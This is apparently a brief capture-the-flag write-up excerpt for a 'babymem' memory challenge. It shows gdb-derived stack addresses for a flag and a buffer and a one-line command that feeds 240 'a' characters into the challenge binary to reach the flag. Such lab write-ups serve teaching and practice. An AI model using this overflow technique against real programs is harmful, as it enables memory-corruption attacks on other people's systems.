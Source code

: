 With `gdb`, you can get the information like this in practice mode.
```
flag: 0x7ffc45105150
buffer: 0x7ffc45105060
```

Use the following command to get the flag.
```
(echo "240"; python -c "print('a' * 240)") | /babymem_level13_testing1
```
